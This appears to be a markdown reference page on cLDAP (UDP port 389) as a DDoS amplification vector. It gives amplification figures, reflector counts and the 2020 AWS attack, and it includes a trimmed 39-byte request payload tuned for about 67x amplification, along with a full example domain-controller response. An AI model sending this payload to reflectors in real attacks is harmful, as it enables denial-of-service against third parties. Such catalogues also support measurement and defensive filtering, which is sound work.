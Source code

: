 # cLDAP (Connectionless Lightweight Directory Access Protocol)

## Port: 389

## Proto: UDP

## Amplification factor: 50-70x

## Reflector count: ~6,100 (Sep 2020)

---

Involved in the 2.3Tbps attack on AWS infrastructure in February 2020. <https://aws-shield-tlr.s3.amazonaws.com/2020-Q1_AWS_Shield_TLR.pdf>.

This 3 day attack contributed to the loss of 3,000 reflectors down to the current ~6,100.

### Refined payload

- From 51 to 39 bytes whilst remaining well-formed: <pre>0%\02\01\07c \04\00\n\01\00\n\01\00\02\01\00\02\01\00\01\01\00\87\0bobjectclass0\00</pre>
- Amplification factor increased to ~67x

### Example response

<pre>
0\84\00\00\0b\0e\02\01\07d\84\00\00\0b\05\04\000\84\00\00\n\fd0\84\00\00\00&\04\0bcurrentTime1\84\00\00\00\13\04\1120190922100706.0Z0\84\00\00\00R\04\11subschemaSubentry1\84\00\00\009\047CN=Aggregate,CN=Schema,CN=Configuration,DC=Mogambo,DC=D0\84\00\00\00\82\04\rdsServiceName1\84\00\00\00m\04kCN=NTDS Settings,CN=RC81230,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=Mogambo,DC=D0\84\00\00\00\bb\04\0enamingContexts1\84\00\00\00\a5\04\0fDC=Mogambo,DC=D\04 CN=Configuration,DC=Mogambo,DC=D\04*CN=Schema,CN=Configuration,DC=Mogambo,DC=D\04!DC=DomainDnsZones,DC=Mogambo,DC=D\04!DC=ForestDnsZones,DC=Mogambo,DC=D0\84\00\00\00-\04\14defaultNamingContext1\84\00\00\00\11\04\0fDC=Mogambo,DC=D0\84\00\00\00G\04\13schemaNamingContext1\84\00\00\00,\04*CN=Schema,CN=Configuration,DC=Mogambo,DC=D0\84\00\00\00D\04\1aconfigurationNamingContext1\84\00\00\00"\04 CN=Configuration,DC=Mogambo,DC=D0\84\00\00\000\04\17rootDomainNamingContext1\84\00\00\00\11\04\0fDC=Mogambo,DC=D0\84\00\00\03\a9\04\10supportedControl1\84\00\00\03\91\04\161.2.840.113556.1.4.319\04\161.2.840.113556.1.4.801\04\161.2.840.113556.1.4.473\04\161.2.840.113556.1.4.528\04\161.2.840.113556.1.4.417\04\161.2.840.113556.1.4.619\04\161.2.840.113556.1.4.841\04\161.2.840.113556.1.4.529\04\161.2.840.113556.1.4.805\04\161.2.840.113556.1.4.521\04\161.2.840.113556.1.4.970\04\171.2.840.113556.1.4.1338\04\161.2.840.113556.1.4.474\04\171.2.840.113556.1.4.1339\04\171.2.840.113556.1.4.1340\04\171.2.840.113556.1.4.1413\04\172.16.840.1.113730.3.4.9\04\182.16.840.1.113730.3.4.10\04\171.2.840.113556.1.4.1504\04\171.2.840.113556.1.4.1852\04\161.2.840.113556.1.4.802\04\171.2.840.113556.1.4.1907\04\171.2.840.113556.1.4.1948\04\171.2.840.113556.1.4.1974\04\171.2.840.113556.1.4.1341\04\171.2.840.113556.1.4.2026\04\171.2.840.113556.1.4.2064\04\171.2.840.113556.1.4.2065\04\171.2.840.113556.1.4.2066\04\171.2.840.113556.1.4.2090\04\171.2.840.113556.1.4.2205\04\171.2.840.113556.1.4.2204\04\171.2.840.113556.1.4.2206\04\171.2.840.113556.1.4.2211\04\171.2.840.113556.1.4.2239\04\171.2.840.113556.1.4.2255\04\171.2.840.113556.1.4.22560\84\00\00\00"\04\14supportedLDAPVersion1\84\00\00\00\06\04\013\04\0120\84\00\00\01\86\04\15supportedLDAPPolicies1\84\00\00\01i\04\0eMaxPoolThreads\04\19MaxPercentDirSyncRequests\04\0fMaxDatagramRecv\04\10MaxReceiveBuffer\04\0fInitRecvTimeout\04\0eMaxConnections\04\0fMaxConnIdleTime\04\0bMaxPageSize\04\16MaxBatchReturnMessages\04\10MaxQueryDuration\04\10MaxTempTableSize\04\10MaxResultSetSize\04\rMinResultSets\04\14MaxResultSetsPerConn\04\16MaxNotificationPerConn\04\0bMaxValRange\04\15MaxValRangeTransitive\04\11ThreadMemoryLimit\04\18SystemMemoryLimitPercent0\84\00\00\00%\04\13highestCommittedUSN1\84\00\00\00\n\04\08224379550\84\00\00\00I\04\17supportedSASLMechanisms1\84\00\00\00*\04\06GSSAPI\04\nGSS-SPNEGO\04\08EXTERNAL\04\nDIGEST-MD50\84\00\00\00&\04\0bdnsHostName1\84\00\00\00\13\04\11rc81230.Mogambo.D0\84\00\00\005\04\0fldapServiceName1\84\00\00\00\1e\04\1cMogambo.D:rc81230$@MOGAMBO.D0\84\00\00\00n\04\nserverName1\84\00\00\00\\\04ZCN=RC81230,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=Mogambo,DC=D0\84\00\00\00\b2\04\15supportedCapabilities1\84\00\00\00\95\04\161.2.840.113556.1.4.800\04\171.2.840.113556.1.4.1670\04\171.2.840.113556.1.4.1791\04\171.2.840.113556.1.4.1935\04\171.2.840.113556.1.4.2080\04\171.2.840.113556.1.4.22370\84\00\00\00\1c\04\0eisSynchronized1\84\00\00\00\06\04\04TRUE0\84\00\00\00"\04\14isGlobalCatalogReady1\84\00\00\00\06\04\04TRUE0\84\00\00\00\1e\04\13domainFunctionality1\84\00\00\00\03\04\0160\84\00\00\00\1e\04\13forestFunctionality1\84\00\00\00\03\04\0160\84\00\00\00(\04\1ddomainControllerFunctionality1\84\00\00\00\03\04\0160\84\00\00\00\10\02\01\07e\84\00\00\00\07\n\01\00\04\00\04\00</pre>
